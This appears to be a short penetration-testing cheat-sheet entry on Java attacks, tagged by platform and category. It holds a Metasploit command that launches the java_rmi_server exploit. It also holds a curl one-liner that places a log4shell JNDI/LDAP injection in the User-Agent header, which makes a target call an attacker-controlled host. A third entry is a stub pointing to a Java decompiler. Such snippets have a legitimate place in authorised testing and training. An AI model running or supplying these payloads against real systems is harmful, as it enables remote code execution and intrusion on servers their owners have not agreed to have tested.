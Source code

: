 # Java

% java

## RMI
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT  
```
msfconsole -x "use exploit/multi/misc/java_rmi_server"
```

## log4shell find
#plateform/linux #target/localq  #cat/UTILS
```
curl -H 'User-Agent: ${jndi:ldap://<lhost>:<lport>}' <ip>
```

## java - decompile tools (GUI)
#plateform/linux
```
echo 'launcher jd-gui (URL: https://java-decompiler.github.io/) -->
```